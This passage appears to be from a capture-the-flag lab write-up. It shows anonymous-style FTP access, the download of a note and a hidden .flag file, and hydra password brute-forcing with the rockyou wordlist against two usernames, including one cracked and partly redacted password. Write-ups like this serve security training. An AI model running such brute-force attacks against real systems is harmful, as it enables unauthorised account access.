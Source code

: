 ```bash
331 Please specify the password.
Password: 
230 Login successful.
```
ls and u get a note, but ls -la and u get a hidden file flag ( took it as a hint for l8r flag hunting )
```bash
ftp> ls
229 Entering Extended Passive Mode (|||27107|)
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp           400 Apr 29  2020 note
226 Directory send OK.
ftp> get note
local: note remote: note
229 Entering Extended Passive Mode (|||25107|)
150 Opening BINARY mode data connection for note (400 bytes).
100% |**************************|   400      100.70 KiB/s    00:00 ETA
226 Transfer complete.
400 bytes received in 00:00 (58.38 KiB/s)
ftp> ls -la
229 Entering Extended Passive Mode (|||55228|)
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Apr 30  2020 .
drwxr-xr-x    2 ftp      ftp          4096 Apr 30  2020 ..
-rw-r--r--    1 ftp      ftp            38 Apr 30  2020 .flag
-rw-r--r--    1 ftp      ftp           400 Apr 29  2020 note
226 Directory send OK.
ftp> get .flag
local: .flag remote: .flag
229 Entering Extended Passive Mode (|||38904|)
150 Opening BINARY mode data connection for .flag (38 bytes).
100% |**************************|    38       77.47 KiB/s    00:00 ETA
226 Transfer complete.
38 bytes received in 00:00 (37.90 KiB/s)
ftp> exit
221 Goodbye.
```
- note gave us 2 users *rcampbell* and *gcrawford** ( hydra time )
- opened 2 terminal tabs and plopped one hydra ftp force for each user
```bash
┌──(root㉿kali)-[~]
└─# hydra -l rcampbell -P /usr/share/wordlists/rockyou.txt 10.10.167.61 ftp
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-07-20 22:54:07
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.167.61:21/
[STATUS] 304.00 tries/min, 304 tries in 00:01h, 14344095 to do in 786:25h, 16 active

[21][ftp] host: 10.10.167.61   login: rcampbell   password: s[REDACTED]y
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-07-20 22:56:54

┌──(root㉿kali)-[~]
└─# hydra -l gcrawford -P /usr/share/wordlists/rockyou.txt 10.10.167.61 ftp       
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

```
